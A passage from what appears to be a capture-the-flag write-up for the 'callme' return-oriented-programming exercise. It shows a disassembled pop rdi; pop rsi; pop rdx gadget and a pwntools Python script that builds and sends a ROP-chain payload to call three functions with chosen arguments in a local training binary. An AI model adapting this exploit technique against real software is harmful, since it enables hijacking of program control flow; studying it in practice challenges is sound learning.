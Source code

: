 ```asm

  0x00401aaf             005f5e  add byte [rdi + 0x5e], bl
  0x00401ab2                 5a  pop rdx
  0x00401ab3                 c3  ret
```

So `0x00401ab0` is the address of a `pop rdi; pop rsi; pop rdx; ret` gadget. Now all we have to do is add some padding, put the plt addresses of the appropriate functions in the right order, add the argument values, and then throw in the rop gadget address:

```python
from pwn import *

prog = process("./callme")

payload = "A" * 40

callme_one_plt = p64(0x00401850)
callme_two_plt = p64(0x00401870)
callme_three_plt = p64(0x00401810)

# pop rdi
# pop rsi
# pop rdx
pop_args = p64(0x00401ab0)

one = p64(1)
two = p64(2)
three = p64(3)

payload += pop_args
payload += one
payload += two
payload += three
payload += callme_one_plt

payload += pop_args
payload += one
payload += two
payload += three
payload += callme_two_plt

payload += pop_args
payload += one
payload += two
payload += three
payload += callme_three_plt

open('payload', 'w').write(payload)

print prog.recvuntil(">")

prog.clean()

prog.sendline(payload)

print prog.clean()
```
